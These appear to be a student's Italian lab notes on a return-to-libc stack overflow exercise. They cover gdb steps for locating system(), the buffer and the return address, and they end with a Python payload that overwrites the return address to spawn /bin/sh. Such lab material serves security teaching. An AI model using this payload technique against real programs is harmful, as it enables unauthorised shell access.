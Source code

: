 # Indirizzo di System
- Per individuare l'indirizzo di system da gdb eseguire
    - p system
    - risultato:0xb7ecffb0
# Risoluzione
    - breakpoint all'inizio
    - Ricostruisco il layout dopo il prologo
    - localizzo buffer e ret
    - Continuo fino all'epilogo
    - Ricostruisco il layout prima del ritorno 
# Indirizzo di buffer
- Per individuarlo vado a mettere un brackpoint prima della gets dato che so che buffer viene passato come primo parametro e che quindi il sui indirizzo sarà nel registro eax
    - risultato: 0xb7f0186e 
    - risultato: 0xbffffc9c
    - \x9c\xfc\xff\xbf
# Indirizzo di ret
- nel codice vediamo come ret sia uguale a -0xc($ebp) questo significa che l'indirizzo si trova in $ebp - 12
    - risultato: 0xbffffccc
    - risultato: 0xbffffcec


# Payload corretto
- Quello del prof fa riferimento ad indirizzi differenti, questo è quello aggiornato rispetto ai miei indirizzi
```python
#!/usr/bin/python

print '/bin//sh\x00' + 'a' * 71 + '\xb0\xff\xec\xb7' + '\x42\x42\x42\x42' + '\x8c\xfc\xff\xbf'
```

